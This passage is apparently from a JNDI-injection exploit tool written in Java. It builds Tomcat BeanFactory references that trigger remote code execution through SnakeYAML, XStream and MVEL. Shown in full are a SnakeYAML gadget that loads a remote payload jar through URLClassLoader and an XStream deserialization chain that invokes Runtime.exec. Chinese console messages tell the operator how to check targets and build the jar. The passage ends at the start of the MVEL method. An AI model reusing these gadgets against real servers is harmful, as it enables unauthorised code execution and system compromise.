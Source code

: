 ```java
        String yaml = "!!javax.script.ScriptEngineManager [\n" +
                "  !!java.net.URLClassLoader [[\n" +
                "    !!java.net.URL [\"http://127.0.0.1:80/yaml-payload.jar\"]\n" +
                "  ]]\n" +
                "]";
        ref.add(new StringRefAddr("forceString", "a=load"));
        ref.add(new StringRefAddr("a", yaml));
        System.out.println("请检查当前项目是否存在org.yaml.snakeyaml.Yaml#load");
        System.out.println("转到https://github.com/artsploit/yaml-payload 使用项目生产yaml-payload.jar放在http服务端下");
        return ref;
    }

    private static ResourceRef tomcat_xstream(){
        ResourceRef ref = new ResourceRef("com.thoughtworks.xstream.XStream", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
        String xml = "<java.util.PriorityQueue serialization='custom'>\n" +
                "  <unserializable-parents/>\n" +
                "  <java.util.PriorityQueue>\n" +
                "    <default>\n" +
                "      <size>2</size>\n" +
                "    </default>\n" +
                "    <int>3</int>\n" +
                "    <dynamic-proxy>\n" +
                "      <interface>java.lang.Comparable</interface>\n" +
                "      <handler class='sun.tracing.NullProvider'>\n" +
                "        <active>true</active>\n" +
                "        <providerType>java.lang.Comparable</providerType>\n" +
                "        <probes>\n" +
                "          <entry>\n" +
                "            <method>\n" +
                "              <class>java.lang.Comparable</class>\n" +
                "              <name>compareTo</name>\n" +
                "              <parameter-types>\n" +
                "                <class>java.lang.Object</class>\n" +
                "              </parameter-types>\n" +
                "            </method>\n" +
                "            <sun.tracing.dtrace.DTraceProbe>\n" +
                "              <proxy class='java.lang.Runtime'/>\n" +
                "              <implementing__method>\n" +
                "                <class>java.lang.Runtime</class>\n" +
                "                <name>       exec        </name>\n" +
                "                <parameter-types>\n" +
                "                  <class>java.lang.String</class>\n" +
                "                </parameter-types>\n" +
                "              </implementing__method>\n" +
                "            </sun.tracing.dtrace.DTraceProbe>\n" +
                "          </entry>\n" +
                "        </probes>\n" +
                "      </handler>\n" +
                "    </dynamic-proxy>\n" +
                "    <string>calc</string>\n" +
                "  </java.util.PriorityQueue>\n" +
                "</java.util.PriorityQueue>";
        ref.add(new StringRefAddr("forceString", "a=fromXML"));
        ref.add(new StringRefAddr("a", xml));
        System.out.println("请检查当前项目是否存在com.thoughtworks.xstream.XStream#fromXML");
        return ref;
    }

    private static ResourceRef tomcat_MVEL(){
        ResourceRef ref = new ResourceRef("org.mvel2.sh.ShellSession", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
```